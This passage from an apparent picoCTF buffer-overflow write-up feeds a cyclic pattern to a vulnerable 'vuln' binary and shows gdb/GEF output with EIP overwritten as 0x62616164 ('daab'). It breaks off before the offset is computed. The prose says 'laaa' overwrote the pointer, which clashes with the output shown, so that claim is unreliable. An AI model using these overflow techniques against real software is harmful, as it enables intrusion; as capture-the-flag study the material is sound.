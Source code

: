 ```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
```

After that, we run the `vuln` binary in `gdb` and give it our generated string. Notice in the `eip` pointer the string part specified as nesxt instruction address : 


```
GNU gdb (Debian 12.1-3) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x79      
$ebx   : 0x62616162 ("baab"?)
$ecx   : 0xf7e229b4  →  0x00000000
$edx   : 0x1       
$esp   : 0xffffcc90  →  "eaab"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0xffffcd74  →  0xffffcf70  →  "/home/rivench/Documents/picoCTF/pwn/buffer_overflo[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x62616164 ("daab"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcc90│+0x0000: "eaab"       ← $esp
0xffffcc94│+0x0004: 0xf7fbf600  →  0x00000000
0xffffcc98│+0x0008: 0xf7fbfb10  →  0xf7c1ac8a  →  "GLIBC_PRIVATE"
0xffffcc9c│+0x000c: 0x000003e8
0xffffcca0│+0x0010: 0xffffccc0  →  0x00000001
0xffffcca4│+0x0014: 0xf7e20ff4  →  0x00220d8c
0xffffcca8│+0x0018: 0xf7ffd020  →  0xf7ffda40  →  0x00000000
0xffffccac│+0x001c: 0xf7c213b5  →   add esp, 0x10
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x62616164
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x62616164 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  exit
```

we can see that it took "laaa" as the address where to go to for contexte restitution. To get the characters needed to overwrite the `eip` pointer then we needed to give `cyclic` command the sustring that the pointer was overwritend with :
